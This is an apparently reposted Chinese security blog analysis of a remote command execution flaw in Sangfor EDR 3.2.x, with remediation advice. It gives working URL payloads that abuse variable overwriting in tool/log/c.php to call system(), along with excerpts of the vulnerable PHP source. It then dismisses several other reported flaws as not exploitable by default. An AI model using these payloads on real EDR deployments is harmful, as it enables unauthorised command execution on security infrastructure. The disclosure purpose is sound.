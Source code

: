 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[blog.riskivy.com\](https://blog.riskivy.com/%e6%b7%b1%e4%bf%a1%e6%9c%8d%e7%bb%88%e7%ab%af%e6%a3%80%e6%b5%8b%e5%b9%b3%e5%8f%b0%ef%bc%88edr%ef%bc%89%e5%ad%98%e5%9c%a8%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e/)

深信服终端检测平台（EDR）存在远程命令执行漏洞分析
--------------------------

2020-08-19 11:30 [漏洞分析](https://blog.riskivy.com/?tag=%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90)

前言
--

终端检测响应平台（EDR）是深信服公司提供的一套终端安全解决方案，EDR 的管理平台支持统一的终端资产管理、终端安全体检、终端合规检查，支持微隔离的访问控制策略统一管理，  
支持对安全事件的一键隔离处置，以及热点事件 IOC 的全网威胁定位，历史行为数据的溯源分析，远程协助取证调查分析。  
在全国重大网络行动的第一天中被爆出存在命令执行漏洞。

漏洞分析
----

### RCE 1

tool\\log\\c.php 文件的变量覆盖漏洞也是最早开始网传的深信服的 RCE 漏洞。该漏洞确实可以复现。  
https://xxx.xxx/tool/log/c.php?strip\_slashes=system&host=id  
原理就是典型的变量覆盖漏洞，这里就不多做赘述了。

![](https://blog.riskivy.com/wp-content/uploads/2020/08/ee98e178712123721ba047e4c2752981.png)

payload 不仅这一种，除了 host 作为函数的参数值外，path，row 等也都可以作为函数参数值，所以 payload 可以有以下几种，show\_input 应该也可以作为执行函数。

```
/tool/log/c.php?strip\_slashes=system&host=id
/tool/log/c.php?strip\_slashes=system&path=id
/tool/log/c.php?strip\_slashes=system&row=id
/tool/log/c.php?strip\_slashes=system&limit=id


```

tool/log/c.php 部分源码

```
<?php  
call\_user\_func(function() {
    ....

    /\*\*
     \* 显示表单
     \* @param array $params 请求参数
     \* @return
     \*/
    $show\_form = function($params) use(&$strip\_slashes, &$show\_input) {
        extract($params);
        $host  = isset($host)  ? $strip\_slashes($host)  : "127.0.0.1";
        $path  = isset($path)  ? $strip\_slashes($path)  : "";
        $row   = isset($row)   ? $strip\_slashes($row)   : "";
        $limit = isset($limit) ? $strip\_slashes($limit) : 1000;

        // 绘制表单
        echo "<pre>";
        echo '<form >';
        $show\_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
        $show\_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
        $show\_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \\s\[w|e\]\\s"));
        $show\_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
        echo '<input type="submit">';
        echo '</form>';
        echo "</pre>";
    };

    /\*\*
     \* 入口函数
     \* @param array $argv 配置参数
     \* @return
     \*/
    $main = function($argv)
        use(&$collect) {
        extract($argv);
        if (!isset($limit)) {
            return;
        }
        $result = $collect($path, $row, $limit, $host);
        if (!is\_array($result)) {
            echo $result, "\\n";
            return;
        }
        if (!isset($result\["success"\]) || $result\["success"\] !== true) {
            echo $result, "\\n";
            return;
        }
        foreach ($result\["data"\] as $host => $items) {
            $last = "";
            foreach ($items as $item) {
                if ($item\["name"\] != $last) {
                    $last = $item\["name"\];
                    echo "\\n\[$host\] -> $last\\n\\n";
                }
                echo $item\["item"\], "\\n";
            }
        }
    };

    set\_time\_limit(0);
    echo '<html><head><meta http-equiv="Content-Type" Content="text/html; Charset=utf-8"></head>';
    echo '<body bgcolor="#e8ddcb">';
    echo "<p><b>Log Helper</b></p>";
    $show\_form($\_REQUEST);
    echo "<pre>";
    $main($\_REQUEST);
    echo "</pre>"; 
});
?>


```

### RCE2？

然后是网传的看着像后门的 RCE，tool/php\_cli.php 。该文件同样存在变量覆盖的疑似漏洞点。

但仔细看代码的话，可以看到文件的开头，就做了个简单的验证。必须存在该文件 ldb\_ext\_root().”/php/enable\_dc\_tool”; 文件目录应该是这个 /ac/dc/ldb/php/enable\_dc\_tool 。我搜了一下一些站点，基本都不存在该文件，该文件应该是需要服务器管理者上去创建的。所以是无法直接执行代码的  
ldb\_ext\_root(). 目录可以通过第一个 RCE 进行读取。  
而默认目录下是没有 enable\_dc\_tool 文件的。  
假设目标主机存在 enable\_dc\_tool 标记，过了第一个判断，则其 payload 类似如下，这里本地进行验证了下。

http://127.0.0.1:8111/tool/php\_cli.php?code=phpinfo();

![](https://blog.riskivy.com/wp-content/uploads/2020/08/ce2721a264a7eb1fd46028a32c758cbb.png)

### RCE3?

网传的第三个 RCE 点，tool\\ldb\_cli.php，该文件也存在多个变量覆盖点。  
但其开头也做了简单的验证，需要存在 enable\_dc\_tool 该文件。所以是也无法直接 RCE 的

![](https://blog.riskivy.com/wp-content/uploads/2020/08/4f841494463af598487e14a5b7fd87ab.png)

### RCE4?

网传的第四个 RCE 点，tool/mdd\_sql.php，同样存在多个可以变量覆盖的点。  
但还是需要在服务器上添加 enadble\_dc\_tool 标记。// 默认不允许使用，除非登录到后台 touch 标记，这里中文没乱码就可以直观看出来了。所以该功能应该是给服务器管理者测试用的。所以，也是无法直接 RCE 的  
![](https://blog.riskivy.com/wp-content/uploads/2020/08/639512dcb21e8a91b26e3adf90714be0.png)

### 任意文件读取？

然后是网传的任意文件读取的漏洞，store/cat.php  
首先，最开始就会检测是否登录。  
![](https://blog.riskivy.com/wp-content/uploads/2020/08/a3f433094f106eb7cf294af9650250ea.png)

其次，有对其进行了简单的校验。只能读取特定目录下的文件。  
![](https://blog.riskivy.com/wp-content/uploads/2020/08/e19e41a5f262d5ffd5208f023cf9f519.png)

![](https://blog.riskivy.com/wp-content/uploads/2020/08/7bee0d0d139b539663c98e831f410043.png)

所以该漏洞顶多算特定目录需要授权的文件读取。

总体来说，除了 HW 第一天报出来的 / tool/log/c.php 的 RCE 确实可用，目前网上文章中提到的其它漏洞点现在看来都较为鸡肋。

漏洞修复
----

其中 tool 目录看起来只是用来系统维护的，通过安装新版本补丁发现，tool 目录和 store 目录均已经被删除。  
![](https://blog.riskivy.com/wp-content/uploads/2020/08/00349f0a1a01a6082dca843a7f23ccbd.png)

影响范围
----

*   深信服 EDR v3.2.16
*   深信服 EDR v3.2.17
*   深信服 EDR v3.2.19

漏洞处置建议
------

深信服官方已经发布升级版本和补丁，更新至 v3.2.21 版本或升级补丁即可修复该问题并增强其他安全机制。  
1、可以通过在线升级方式推送补丁包修复该漏洞，开启在线升级功能可自动修复该漏洞。  
2、针对无法在线升级的用户，用户可通过以下链接下载升级安装包来完成 EDR 的升级工作：

参考链接
----

1.  https://mp.weixin.qq.com/s/llxds35LdBdfe8r\_ZrzuTw
2.  https://bbs.sangfor.com.cn/plugin.php?id=service:download&action=view&fid=100000022878128#/100000035115623/all/undefined